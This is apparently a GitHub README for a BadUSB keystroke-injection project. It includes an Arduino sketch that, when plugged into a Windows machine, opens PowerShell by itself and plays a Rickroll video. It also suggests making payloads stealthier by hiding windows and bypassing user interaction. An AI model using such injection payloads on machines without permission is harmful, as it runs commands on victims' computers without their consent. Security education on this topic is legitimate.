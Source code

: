 # **HiLetGo BadUSB Beetle - Keystroke Injection - Multi-OS Support**

## **Overview**
This project turns the **HiLetgo BadUSB Beetle (ATMEGA32U4)** into a **multi-OS keystroke injection tool** that can automate commands across **Windows, Linux, and macOS**. The included **Rickroll payload** is just an example of what’s possible. Additional payloads will be added to support various automation and security research tasks.

## **⚠️ Disclaimer**
This tool is for **educational and ethical hacking purposes only**. Do not use this on systems you do not own or have explicit permission to test. The misuse of this tool may result in legal consequences.

---

## **🔧 Requirements**
- **HiLetgo BadUSB Beetle (ATMEGA32U4)** or any ATMEGA32U4-based board
- **Arduino-CLI installed**
- **Arduino Keyboard Library installed**
- **A computer running Windows, Linux, or macOS**
- **USB cable for flashing the board**

---

## **🛠️ Installation & Setup**
### **Step 1: Install Arduino-CLI**
Arduino-CLI is required to compile and upload scripts to the BadUSB device.

Run the following command to install Arduino-CLI:
```bash
curl -fsSL https://raw.githubusercontent.com/arduino/arduino-cli/master/install.sh | sh
```
Verify the installation:
```bash
arduino-cli version
```

### **Step 2: Configure Arduino-CLI**
Initialize the configuration file:
```bash
arduino-cli config init
```
Update the core index and install support for ATMEGA32U4 boards:
```bash
arduino-cli core update-index
arduino-cli core install arduino:avr
```

### **Step 3: Install the Keyboard Library**
The Keyboard library is required to simulate keystrokes. Install it using:
```bash
arduino-cli lib install "Keyboard"
```

### **Step 4: Check If Your Board is Detected**
Plug in your HiLetgo BadUSB Beetle and run:
```bash
arduino-cli board list
```
If detected, you should see an output like:
```
Port         Type              Board Name  
/dev/ttyACM0 Serial Port      Arduino Micro
```

---

## **📜 Writing a Keystroke Injection Script**
The following is an **example Rickroll payload for Windows**. Additional payloads will be added to support different automation use cases.

### **1️⃣ Create a New Sketch**
Create a new file called `payload.ino` and paste the following script:

```cpp
#include "Keyboard.h"

void setup() {
    delay(3000); // Wait for system to be ready
    Keyboard.begin();

    // Open Run Dialog (Win + R)
    Keyboard.press(KEY_LEFT_GUI);
    Keyboard.press('r');
    Keyboard.releaseAll();
    delay(500);

    // Open PowerShell
    Keyboard.print("powershell");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(1500);

    // Command to play video in Microsoft Edge Kiosk Mode
    Keyboard.print("Start-Process msedge.exe -ArgumentList \"--kiosk https://shattereddisk.github.io/rickroll/rickroll.mp4 --edge-kiosk-type=fullscreen\"");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(1000);

    // If Edge is unavailable, use Windows Media Player
    Keyboard.print("$wmp = New-Object -ComObject WMPlayer.OCX; $wmp.URL = 'https://shattereddisk.github.io/rickroll/rickroll.mp4'; $wmp.controls.play();");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();
    delay(1000);

    // Exit PowerShell
    Keyboard.print("exit");
    Keyboard.press(KEY_RETURN);
    Keyboard.releaseAll();

    Keyboard.end();
}

void loop() {}
```

---

## **🛠️ Compiling & Uploading the Script**
### **Step 1: Compile the Script**
Run the following command to compile the script for the **ATMEGA32U4**:
```bash
arduino-cli compile --fqbn arduino:avr:micro payload.ino
```
If your board uses the **Leonardo bootloader**, use:
```bash
arduino-cli compile --fqbn arduino:avr:leonardo payload.ino
```

### **Step 2: Upload the Script to the BadUSB Device**
```bash
arduino-cli upload -p /dev/ttyACM0 --fqbn arduino:avr:micro payload.ino
```
Replace `/dev/ttyACM0` with the correct port detected earlier.

---

## **🚀 Executing the Payload**
1. **Plug the BadUSB into a computer** running Windows, Linux, or macOS.
2. The script will automatically execute after a **3-second delay**.
3. The behavior depends on the payload:
   - The **Rickroll example** will launch and play the video.
   - Future payloads will support **automated commands, network scripts, or penetration testing tools**.

---

## **🎯 Troubleshooting**
### **1. The Payload Doesn't Execute**
- Ensure the script is **compiled and uploaded correctly**.
- Verify that **Arduino-CLI detects the board** with `arduino-cli board list`.
- Try increasing the delay (`delay(3000);` to `delay(5000);`) in `setup()`.

### **2. Edge Doesn’t Open in Kiosk Mode (Windows Example)**
- Ensure **Microsoft Edge is installed** by running:
  ```powershell
  Start-Process msedge.exe
  ```
- If Edge isn’t installed, the script will automatically fall back to **Windows Media Player**.

### **3. Expanding Beyond the Rickroll Payload**
- New payloads will be added to support **Linux terminal automation**, **macOS scripting**, and **advanced penetration testing workflows**.
- Stay updated by checking the repository for new releases!

---

## **📌 Additional Enhancements**
- **Make it more stealthy**: Modify commands to **hide execution windows**.
- **Expand payload library**: Add **multi-OS automation scripts**.
- **User interaction bypass**: Implement logic to detect and manipulate UI elements.

---

## **📢 Final Notes**
This repository is designed for **educational purposes**, helping users understand how keystroke injection can be used for **automation and security research**.

For any issues or improvements, feel free to **submit a pull request** or **open an issue** on GitHub.

**More payloads coming soon!** 🚀

